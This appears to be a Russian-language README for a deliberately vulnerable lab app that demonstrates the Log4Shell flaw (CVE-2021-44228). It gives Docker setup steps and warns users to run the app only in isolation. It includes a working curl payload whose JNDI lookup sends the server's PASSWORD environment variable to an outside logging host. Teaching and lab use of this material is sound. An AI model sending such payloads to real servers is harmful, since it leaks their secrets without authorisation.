

# Демонстрация Log4Shell уязвимости на примере простого web-приложения

Основные типы уязвимостей [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) могут быть классифицированы следующим образом:

1. **Уязвимость связанная с похищением переменной окружения**: Этот тип уязвимости позволяет злоумышленнику внедрить специально сформированные данные в журнальные сообщения, которые могут привести к выполнению нежелательных действий, таких как утечка конфиденциальной информации через переменные окружения.
2. **Уязвимость в выполнении зловредного кода**: Этот тип уязвимости более серьезный и позволяет злоумышленнику удаленно выполнить произвольный код на сервере, использующем Log4j. Злоумышленник может достичь этого, отправляя специально сформированные журнальные сообщения, содержащие код, который будет исполнен сервером. Это может привести к полному контролю над сервером и краже данных.

В данном примере рассмотрим первый вариант (переменная окружения).

**<span style="color:red">Этот репозиторий содержит веб-приложение уязвимое для CVE-2021-44228, под названием Log4Shell. Приложение размещенное в данном репозитории настоятельно рекомендуется запускать в изолированной виртуальной среде. Запуск процессов в соответствии с данной инструкцией осуществляется на Ваш страх и риск.</span>**

## Инструкции

1. **Клонирование проекта**

```bash
git clone https://github.com/evgenyk-nn/Simple-log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
```

2. **Сборка образа Docker**


```bash
docker build . -t my-log4shell
```

3. **Запуск контейнера на основе образа**


```bash
docker run --name vulnerable-app --rm -p 8080:8080 my-log4shell
```

4. **Эмуляция атаки**

Сервис [yandex.tatar](https://yandex.tatar/) разработан специалистами Yandex в том числе для целей моделирования атак. Можно сгенерировать свой ID инстанса и отправить зловредный payload. Буквально это означает следующее 'сходи на этот LDAP сервер и передай туда environment переменную'.


Пейлоад - это часть данных или кода, который передается или выполняется в рамках определенного контекста или протокола. В контексте безопасности информации или компьютерных систем, пейлоад обычно означает нагрузку зловредного программного обеспечения или кода, который используется для атаки или компрометации целевой системы.


```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://${env:PASSWORD}.71e366363ed9.n.yandex.tatar}'
```



5. **результат**

Уязвимое приложение (сервер) отправляет содержимое environment переменной password на удаленный (зловредный) сервер.


